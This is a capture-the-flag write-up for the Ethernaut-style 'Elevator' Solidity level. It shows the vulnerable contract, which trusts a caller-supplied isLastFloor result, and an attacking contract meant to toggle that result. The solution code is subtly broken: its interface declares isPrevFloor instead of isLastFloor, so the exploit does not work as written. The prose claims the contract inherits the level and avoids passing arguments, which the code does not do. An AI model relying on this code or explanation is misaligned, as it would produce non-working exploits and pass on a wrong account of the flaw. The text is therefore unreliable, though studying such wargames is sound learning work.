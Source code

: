 # Level 11 - Elevator

### Objective

The objective of this level is as follows:

1. Reach the top of the building

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Solution

In this level, we create a contract called `OurBuilding` that inherits the level contract and allows us to evade `isLastFloor` but not passing in any arguments:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isPrevFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract OurBuilding is Building {
    bool public prev = true;

    function isPrevFloor(uint _n) override external returns (bool) {
        prev = !prev;
        return prev;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(1);
    }
}
```

After deploying `OurBuilding` on Remix and calling the `goToTop` function with the level contract address, we can verify that we are at the top floor:

```
await contract.top()


```

Done!
